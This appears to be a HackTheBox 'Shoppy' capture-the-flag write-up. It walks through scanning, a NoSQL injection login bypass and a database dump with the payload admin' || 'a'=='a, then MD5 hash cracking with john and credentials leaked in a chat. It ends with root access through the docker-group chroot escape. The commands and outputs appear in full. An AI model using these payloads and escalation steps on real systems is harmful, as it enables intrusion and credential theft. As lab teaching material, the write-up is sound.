


HackTheBox Shoppy
- Name: Shoppy
- IP: 10.10.11.180
- Defficulty: Easy
- OS: Linux
- Author: lockscan
Nmap
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDApZi3Kltv1yDHTatw6pKZfuIcoHfTnVe0W1yc9Uw7NMUinxjjQaQ731J+eCTwd8hBcZT6HQwcchDNR50Lwyp2a/KpXuH2my+2/tDvISTRTgwfMy1sDrG3+KPEzBag07m7ycshp8KhrRq0faHPrEgcagkb5T8mnT6zr3YonzoMyIpT+Q1O0JAre6GPgJc9im/tjaqhwUxCH5MxJCKQxaUf2SlGjRCH5/xEkNO20BEUYokjoAWwHUWjK2mlIrBQfd4/lcUzMnc5WT9pVBqQBw+/7LbFRyH4TLmGT9PPEr8D8iygWYpuG7WFOZlU8oOhO0+uBqZFgJFFOevq+42q42BvYYR/z+mFox+Q2lz7viSCV7nBMdcWto6USWLrx1AkVXNGeuRjr3l0r/698sQjDy5v0GnU9cMHeYkMc+TuiIaJJ5oRrSg/x53Xin1UogTnTaKLNdGkgynMqyVFklvdnUngRSLsXnwYNgcDrUhXxsfpDu8HVnzerT3q27679+n5ZFM=
| 256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHiKrH/B/4murRCo5ju2KuPgkMjQN3Foh7EifMHEOwmoDNjLYBfoAFKgBnrMA9GzA+NGhHVa6L8CAxN3eaGXXMo=
| 256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBRsWhJQCRHjDkHy3HkFLMZoGqCmM3/VfMHMm56u0Ivk
80/tcp open http syn-ack nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
9093/tcp open copycat? syn-ack
| fingerprint-strings:
| GenericLines:
| HTTP/1.1 400 Bad Request
| Content-Type: text/plain; charset=utf-8
| Connection: close
| Request
| GetRequest:
| HTTP/1.0 200 OK
| Content-Type: text/plain; version=0.0.4; charset=utf-8
| Date: Wed, 11 Jan 2023 03:10:11 GMT
| HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
| TYPE go_gc_cycles_automatic_gc_cycles_total counter
| go_gc_cycles_automatic_gc_cycles_total 166
| HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
| TYPE go_gc_cycles_forced_gc_cycles_total counter
| go_gc_cycles_forced_gc_cycles_total 0
| HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
| TYPE go_gc_cycles_total_gc_cycles_total counter
| go_gc_cycles_total_gc_cycles_total 166
| HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
| TYPE go_gc_duration_seconds summary
| go_gc_duration_seconds{quantile="0"} 3.8121e-05
| go_gc_duration_seconds{quantile="0.25"} 6.9631e-05
| go_gc
| HTTPOptions:
| HTTP/1.0 200 OK
| Content-Type: text/plain; version=0.0.4; charset=utf-8
| Date: Wed, 11 Jan 2023 03:10:12 GMT
| HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
| TYPE go_gc_cycles_automatic_gc_cycles_total counter
| go_gc_cycles_automatic_gc_cycles_total 166
| HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
| TYPE go_gc_cycles_forced_gc_cycles_total counter
| go_gc_cycles_forced_gc_cycles_total 0
| HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
| TYPE go_gc_cycles_total_gc_cycles_total counter
| go_gc_cycles_total_gc_cycles_total 166
| HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
| TYPE go_gc_duration_seconds summary
| go_gc_duration_seconds{quantile="0"} 3.8121e-05
| go_gc_duration_seconds{quantile="0.25"} 6.9631e-05
|_ go_gc
# Keyspace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Three ports are open.
- 22/TCP SSH
- OpenSSH 8.4p1
- And its banner says that this is a
Debianbox
- 80/TCP HTTP
- nginx/1.23.1
- Add
shoppy.htbinto/etc/hosts
- 9093/TCP Copycat
- Copycat is a database replication service. We are not going to utilize it in this box therefore I’m not going to describe further more about it.
Web Enumeration
Subdomain Fuzzing
Found one subdomain
mattermost [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 86ms]
Add mattermost.shoppy.htb into /etc/hosts
If we head over to mattermost.shoppy.htb, we can see a login form.
Since we don’t have any credentials yet, we can skip this for now.
Directory Fuzzing
Found two interesting directories under http://shoppy.htb
[09:04:03] 302 - 28B - /admin/ -> /login
[09:04:40] 200 - 1KB - /login
I couldn’t find any directories under http://mattermost.shoppy.htb except for robots.txt which has nothing interesting within it.
Shoppy.htb/login
It’s a login form for admin. So we can asume admin as an possible username.
After a while I tried to fuzz the username parameter with some NoSQL Payloads and found a working payload.
ffuf -request login.req -request-proto http -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -c -r -mc all

Exploit the NoSQLi and login to shoppy.htb

In http://shoppy.htb/admin/search-users we can search for users. And if we search for admin, it gives us a export-report.json which contains id, username and MD5 password hash of the admin user. But we don’t need admin credentials anymore thus we need to find if is there are any other existing users are in this site or not.
So to do that, instead of searching for admin, we can search for admin' || 'a'=='a (the payload we used to login to the site) and leak the database. With that we can find a username josh and his MD5 password hash.
[
{
"_id":"62db0e93d6d6a999a66ee67a",
"username":"admin",
"password":"23c6877d9e2b564ef8b32c3a23de27b2"
},
{
"_id":"62db0e93d6d6a999a66ee67b",
"username":"josh",
"password":"6eb**************************995"
}
]
Let’s crack it and find the user josh’s password.
john hash --format=raw-md5 -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
josh:rem***********way
1 password hash cracked, 0 left
Foothold
Since we have the user josh’s credentials and the fact that we are already the admin of the shoppy.htb, we don’t need to try josh credentials on shoppy.htb anymore. Therefore we can try those credentials on mattermost.shoppy.htb. It worked and now we are in http://mattermost.shoppy.htb/shoppy/channels/deploy-machine direcroty and it seems like a group chat or something like that. And right away we can notice a message containing credentials for user called jaeger.
Hey @josh,
For the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0********pp!
And deploy on it.
And we can see that josh has already replied to that message and we can assume that josh has already created that account.
And we can also see they are usign docker to deployment. So we might be able to take advantage of it later.
Oh I forgot to tell you, that we're going to use docker for the deployment, so I will add it to the first deploy
Let’s login to the box via SSH with jaeger’s credentials and capture the user flag.
jaeger@shoppy:~$ whoami
jaeger
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
jaeger@shoppy:~$ cat user.txt
51d**************************c60
Privesc [Deploy]
User jaeger can run /home/deploy/password-manager as the user deploy with no password.
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger:
Matching Defaults entries for jaeger on shoppy:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User jaeger may run the following commands on shoppy:
(deploy) /home/deploy/password-manager
When we execute /home/deploy/password-manager, it asks us for a master password.
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: syclops
Access denied! This incident will be reported !
So I wanted to analyze /home/deploy/password-manager a little bit more. So I downloaded it to my local machine and open it with ghidra.
In the main function I saw it is forming a word Sample letter by letter before it compares with users input.
bool main(void)
{
int iVar1;
basic_ostream *pbVar2;
basic_string<char,std::char_traits<char>,std::allocator<char>> local_68 [32];
basic_string local_48 [47];
allocator<char> local_19 [9];
pbVar2 = std::operator<<((basic_ostream *)std::cout,"Welcome to Josh password manager!");
std::basic_ostream<char,std::char_traits<char>>::operator<<
((basic_ostream<char,std::char_traits<char>> *)pbVar2,
std::endl<char,std::char_traits<char>>);
std::operator<<((basic_ostream *)std::cout,"Please enter your master password: ");
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string();
/* Keyspace */
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator+=
(local_68,"S");
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator+=
(local_68,"a");
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator+=
(local_68,"m");
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator+=
(local_68,"p");
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator+=
(local_68,"l");
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::operator+=
(local_68,"e");
iVar1 = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::compare
(local_48);
if (iVar1 != 0) {
pbVar2 = std::operator<<((basic_ostream *)std::cout,
"Access denied! This incident will be reported !");
std::basic_ostream<char,std::char_traits<char>>::operator<<
((basic_ostream<char,std::char_traits<char>> *)pbVar2,
std::endl<char,std::char_traits<char>>);
}
else {
pbVar2 = std::operator<<((basic_ostream *)std::cout,"Access granted! Here is creds !");
std::basic_ostream<char,std::char_traits<char>>::operator<<
((basic_ostream<char,std::char_traits<char>> *)pbVar2,
std::endl<char,std::char_traits<char>>);
system("cat /home/deploy/creds.txt");
}
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
(local_68);
std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string
((basic_string<char,std::char_traits<char>,std::allocator<char>> *)local_48);
return iVar1 != 0;
So now I’m certain that Sample is the master password for /home/deploy/password-manager. Let’s try it on the box now.
It worked and I got the SSH credentials for the user deploy.
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Dep*******pp!
Log into the box via SSH as the deploy user.
Privesc [Root]
$ whoami
deploy
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
As you can see, now we have elevated our privileges to deploy user. And if you look closely to the output of the id command, you can see that the deploy user is also in the docker group. So that means now we could be able to run docker binary.
If we look into gtfobins.github.io for docker binay, you can see there is a way we can use docker to get a root shell.
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# cat /root/root.txt
7a9**************************6e9